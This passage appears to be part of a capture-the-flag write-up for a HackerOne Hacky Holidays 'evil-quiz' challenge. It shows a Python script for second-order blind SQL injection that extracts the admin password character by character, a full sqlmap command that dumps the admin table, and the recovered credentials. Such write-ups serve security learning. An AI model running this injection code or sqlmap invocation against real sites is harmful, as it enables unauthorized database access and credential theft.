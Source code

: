 **Guess Work -** 5 characters and starts with 'a' - seems like `admin` and we have out table name.

Similarly, we can do to find the column names and stuff but we can't keep on going this forever, there are two ways to approach this,

- We can use automated tool like `sqlmap` and
- We can script it (if anyone is interested, didn't use this method)

 ```python
 import requests
 import string

# All the printable characters
chars = string.printable
# Maintaining Session State
session = requests.Session()
final = ""
ct = 0
print("[*] Finding Password ... ")
password = 1
 while ct < 100 :
    ct = 1
    for char in chars:
        sqli="1' or (ascii(substr((select password from admin ) ,{},1))) ={} -- -".format(str(password),ord(char))
        post_parameters = {"name":str(sqli)}
        headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36 Edg/84.0.522.63","Content-Type":"application/x-www-form-urlencoded"}
        cookies = {"session":"206979a74800a0190f1f04c10db5ca8c"}
        post_response = session.post("https://hackyholidays.h1ctf.com/evil-quiz", data=post_parameters, headers=headers, cookies=cookies)
        get_response = session.get("https://hackyholidays.h1ctf.com/evil-quiz/score", headers=headers, cookies=cookies)
        # print(char)
        if  'There is 0 other player(s)' not in get_response.text:
            final += str(char)
            print(final)
            break
        ct += 1
    password += 1
print('[+]Found: '.format(str(final))) 
```

I took taking the lazy way - `SQLMap`. Setting up `SQLMap` to use post data and redirection URL as well, with other headers and fact checking `--not-string` flag, along with the database and table specified, that we found earlier.

Without following redirects and merging the cookie, here we successfully ran the `sqlmap` that yield us the credentials.

```shell
$ sqlmap -u 'https://hackyholidays.h1ctf.com/evil-quiz' --data 'name=cardinal' --second-url 'https://hackyholidays.h1ctf.com/evil-quiz/score' --random-agent --not-string 'There is 0 other player' --technique=B --level=3 --risk=3 --cookie 'session=206979a74800a0190f1f04c10db5ca8c'  -D quiz -T admin --dump
...
+----+-------------------+----------+
| id | password          | username |
+----+-------------------+----------+
| 1  | S3creT_p4ssw0rd-$ | admin    |
+----+-------------------+----------+
...
```

